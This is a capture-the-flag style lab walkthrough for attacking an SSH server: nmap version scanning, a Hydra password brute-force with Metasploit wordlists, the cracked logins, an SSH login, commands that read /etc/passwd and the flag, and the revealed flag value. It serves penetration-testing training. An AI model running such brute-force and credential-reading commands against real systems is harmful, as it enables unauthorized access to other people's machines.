

# 🔬SSH

## Lab 1

>  🔬 [SSH Login](https://attackdefense.com/challengedetails?cid=1526)
>
>  - Target IP: `192.63.218.3`
>  - **Brute-force** of [OpenSSH](https://www.openssh.com/) server
>  - **Enumeration and nmap scripts** have been already covered in this [SSH Enum lab](../../../assessment-methodologies/3-enumeration/ssh-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.63.218.3
```

```bash
22/tcp open  ssh  OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
```

> 📌 OpenSSH 7.9p1 cannot be exploited directly

### Brute-Force

- Metasploit `ssh_login` module or `Hydra` tool can be utilized for brute forcing the SSH password

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.63.218.3 -t 4 ssh
```

```bash
[22][ssh] host: 192.63.218.3   login: sysadmin   password: hailey
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 273 to do in 00:04h, 4 active
[22][ssh] host: 192.63.218.3   login: rooty   password: pineapple
[...]
```

- Login to the target via SSH

```bash
ssh sysadmin@192.63.218.3
```

```bash
groups sysadmin
cat /etc/*release
uname -r
cat /etc/passwd
find / -name "flag"
cat /flag
```

<details>
<summary>Reveal Flag: 🚩</summary>


`eb09cc6f1cd72756da145892892fbf5a`



</details>

------

